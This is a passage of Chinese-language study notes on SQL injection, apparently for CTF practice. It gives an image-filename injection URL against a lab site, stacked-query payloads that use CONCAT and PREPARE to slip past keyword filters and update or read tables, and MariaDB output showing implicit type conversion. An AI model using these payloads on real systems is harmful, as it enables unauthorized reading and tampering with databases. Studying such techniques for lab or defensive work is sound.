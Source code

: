 ### 图片注入

```
图片插入到数据库中，需要查询提取数据
例题：
http://lab1.xseclab.com/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1%df%27union%20select%201,2,user(),4%23.jpg
```

### 堆叠查询注入

```
mysqli_multi_query函数，可以执行多行 SQL 语句

payload:
username=1';set @sql=concat('up','date `score` set listen=123 where username="火华"');prepare sql_exe FROM @sql;execute sql_exe#
-1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
```
## 其他要点

### 易错点

```txt
隐式转换：
MariaDB [myclass]> select "-1"=-1;
+---------+
| "-1"=-1 |
+---------+
|       1 |
+---------+
1 row in set (0.00 sec)

MariaDB [myclass]> select "-1"=1;
+--------+
| "-1"=1 |
+--------+
|      0 |
+--------+
1 row in set (0.00 sec)

字符等于0：
MariaDB [myclass]> select 'aaa'=0;
+---------+
| 'aaa'=0 |
+---------+
|       1 |
+---------+
1 row in set, 1 warning (0.00 sec)

MariaDB [myclass]> select 'aaa'=1;
+---------+
| 'aaa'=1 |
+---------+
|       0 |
+---------+
1 row in set, 1 warning (0.00 sec)

MariaDB [myclass]> select 'aaa'+123;
+-----------+
| 'aaa'+123 |
+-----------+
|       123 |
+-----------+
```